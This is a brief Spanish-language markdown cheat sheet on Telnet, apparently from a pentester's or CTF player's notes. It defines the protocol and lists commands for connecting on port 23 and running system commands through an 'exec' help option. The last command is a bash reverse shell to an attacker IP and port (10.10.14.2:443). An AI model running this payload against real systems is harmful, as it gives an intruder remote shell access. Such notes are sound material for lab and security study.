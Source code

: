 # Telnet 

Tags: #Telnet #Puerto #Comandos 

Telnet es el nombre de un protocolo de red que nos permite acceder a otra máquina para manejarla remotamente como si estuviéramos sentados delante de ella. También es el nombre del programa informático que implementa el cliente.

## Comandos

```bash 
❯ telnet ❮IP❯ 23                             # Iniciar sesion en Telnet en su puerto por default 23

	❯ ?                                     # Miramos el panel de ayuda, en ocasiones encontramos ‘exec system commands’ 
     ❯ exec id                               # Nos muestra el id en el que estamos
     ❯ exec ifconfig                         # Nos muestra las interfaces y su ip address
     ❯ exec bash -c “bash -i >& /dev/tcp/10.10.14.2/443 0>&1”     # Si podemos ejecutar comandos, podemos hacer una ReverShell de esta manera, IP del atacante y su puerto
```